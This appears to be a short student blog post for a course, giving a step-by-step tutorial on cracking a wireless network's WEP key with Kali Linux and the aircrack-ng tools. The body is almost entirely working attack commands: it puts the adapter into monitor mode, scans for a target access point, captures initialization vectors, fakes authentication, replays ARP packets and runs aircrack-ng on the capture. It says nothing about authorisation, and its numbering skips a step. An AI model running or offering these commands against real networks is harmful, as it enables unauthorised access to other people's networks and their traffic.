 ```yaml
---
layout: post
title: "Blog 9"
description: "CIT 480 blog 9"
categories: [uncategorized]
tags: [random, jekyll]
redirect_from:
  - /2019/11/2/
---
```


# How to hack WEP Key?

__Hardware/Software Requirements__

* ALFA Network AWUS036AC WiFi Adapter.
* Kali Linux.

__Step 1: Install WiFi Adapter Driver on Kali Linux__

* Driver on Alfa Network’s Website will probably not work on Kali Linux. So perform steps below.
* apt-get update
* apt-get upgrade
* apt-get install realtek-rtl88xxau-dkms

__Step 2: Set WiFi Adapter to Monitor Mode__

To check if adapter is present

* iwconfig

To put WiFi Adapter in monitor mode.

* airmon-ng start wlan0

If processes are present then kill the processes.

* airmon-ng check kill

Run Again

* airmon-ng start wlan0

Confirm WiFi Adapter is in Monitor Mode

* iwconfig

__Step 3: Scan Network__

Find your target

* Airodump-ng wlan0

Copy BSSID of Target AP

Remember channel number

__Step 4: Start a IV Capture on Target AP__

* Open New Terminal
* airodump-ng -c <channel-number> --bssid <AP BSSID> -w <file_name> -i wlan0
	* -c to specify AP’s broadcasting channel
	* --bssid to specify MAC of Target AP
	* -w to specify where to save your initialization vectors
	* -i to save initialization vectors only and discard all other data

__Step 5: Fake Authentication__

WiFi Adapter needs to be associated with AP to be able to inject packets later. 

* Open New Terminal
* aireplay-ng -1 0 -e <SSID of Target AP> -a <BSSID of Target AP> wlan0
	* -1 means fake authentication
	* 0 means reassociation timing in seconds
	* -e to specify name of the network
	* -a is the access point MAC address

__Step 7: Packet Injection__

* Open New Terminal
* aireplay-ng -3 -b <AP MAC> wlan0
	* -3 ARP request replay
	* -b to specify AP MAC

__Step 8: Crack WEP Key__
#Collect enough IVs
* Open New Terminal
* aircrack-ng <file_name.cap>


























